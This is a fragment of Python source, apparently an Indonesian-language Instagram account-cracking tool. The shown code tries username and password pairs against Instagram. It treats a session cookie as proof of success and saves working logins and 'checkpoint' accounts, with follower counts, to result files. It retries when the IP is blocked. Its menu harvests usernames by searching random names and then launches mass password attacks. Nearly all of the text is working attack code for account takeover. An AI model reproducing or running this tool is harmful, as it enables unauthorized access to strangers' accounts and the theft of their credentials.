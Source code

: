 			if "userId" in str(respon.text) or "sessionid" in ses.cookies.get_dict():
				nama,pengikut,mengikut,postingan=self.APIinfo(usr)
				print("OK")
				print(f"{H}{usr} {P}| {H}{pwd}{P}\n")
				open(f"result/success-{day}.txt","a").write(f'{user}|{pw}|{pengikut}|{mengikut}\n')
			elif 'href="https://www.instagram.com/challenge/action/"' in str(respon.text):
				nama,pengikut,mengikut,postingan=self.APIinfo(usr)
				print("CP")
				print(f"{K}{usr} {P}| {K}{pwd}{P}\n")
				open(f"result/checkpoint-{day}.txt","a").write(f'{user}|{pw}|{pengikut}|{mengikut}\n')
			elif 'ip_block' in str(respon.text):
				sys.stdout.write(f'\r {P}[{M}#{P}] {M}spamIP {N}{len(usr)}{P}');sys.stdout.flush()
				time.sleep(5)
				self.checkAPI(usr, pwd)
		except:
			self.checkAPI(usr,pwd)

	def menu(self):
		self.logo()
		c=input(f'{P}[{B}?{P}] menu : {H}')
		if c=='':
			self.menu()
		
		elif c in ('1','01'):
			m=int(input(f'{P}[{B}?{P}] masukan jumlah target : {H}'))
			prints(Panel(f"{P2}masukan nama random untuk di searching, {H2}1 {P2}nama setara dengan {H2}5000 {P2}username",width=80,padding=(0,1),style=f"#FFFFFF"))
			for i in range(m):
				i+1
				i+=1
				nama=input(f'{P}[{B}?{P}] masukan nama {B}{len(internal)}{P} : {H}')
				name=self.searchAPI(self.cookie,nama)
			self.passwordAPI(name)
			
		elif c in ('2','02'):
			mas=input(f"{P}[{B}?{P}] apakah anda ingin crack massal? Y/t : {H}")
			if mas in ['y','Y']:
				masal(self)
			elif mas in ['t','T']:
				massal(self)
			elif mas in ['']:
				print(f"{P}[{B}?{P}] jangan kosong!")
				exit()

		elif c in ('3','03'):
			mas=input(f"{P}[{B}?{P}] apakah anda ingin crack massal? Y/t : {H}")
			if mas in ['y','Y']:
				mengi(self)
			elif mas in ['t','T']:
				meng(self)
			elif mas in ['']:
				print(f"{P}[{B}?{P}] jangan kosong!")
				exit()
